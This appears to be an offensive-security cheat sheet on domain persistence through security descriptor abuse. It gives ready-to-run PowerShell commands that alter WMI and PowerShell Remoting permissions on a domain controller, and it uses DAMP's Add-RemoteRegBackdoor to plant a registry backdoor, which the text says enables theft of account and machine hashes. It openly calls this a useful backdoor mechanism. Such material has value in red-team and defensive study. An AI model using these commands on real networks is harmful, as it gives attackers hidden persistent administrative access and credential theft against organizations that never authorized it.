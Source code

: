 It is a very useful backdoor mechanism but administrative privileges are required.

Security Descriptor Definition Language defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and SACL.

`ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid`

ACE for built-in administrators for WMI namespaces

```powershell
A;CI;CCDCLCSWRPWPRCWD;;;<SID>
```

## WMI

ACLs can be modified to allow non-admin users access to securable objects with `Set-RemoteWMI.ps1`:

```powershell
Import-Module .\Set-RemoteWMI.ps1
```
```powershell
Set-RemoteWMI -UserName user1 -Verbose
Set-RemoteWMI -UserName user1 -ComputerName dc01.corp.local -namespace 'root\cimv2' -Verbose
Set-RemoteWMI -UserName user1 -ComputerName dc01.corp.local -Credential Administrator -namespace 'root\cimv2' -Verbose
```
And to remove permissions:

```powershell
Set-RemoteWMI -UserName user1 -ComputerName dc01.corp.local -namespace 'root\cimv2' -Remove -Verbose
```

## PowerShell Remoting

Something similar we can do it with PowerShell Remoting with the script `Set-RemotePSRemoting.ps1`.

```powershell
Import-Module .\Set-RemotePSRemoting.ps1

Set-RemotePSRemoting -UserName user1 -Verbose
Set-RemotePSRemoting -UserName user1 -ComputerName dc01.corp.local -Verbose
Set-RemotePSRemoting -UserName user1 -ComputerName dc01.corp.local -Remove
```

## Remote Registry Backdoor

Using DAMP we can modify the registry with administrative privileges.

On a remote machine with `Add-RemoteRegBackdoor.ps1` script.

* [https://github.com/HarmJ0y/DAMP](https://github.com/HarmJ0y/DAMP)

```powershell
Import-Module .\DAMP-master\Add-RemoteRegBackdoor.ps1
Add-RemoteRegBackdoor -ComputerName dc01.corp.local -Trustee user1 -Verbose
```
After that we can execute some interesting attacks such as getting accounts and machines hashes.
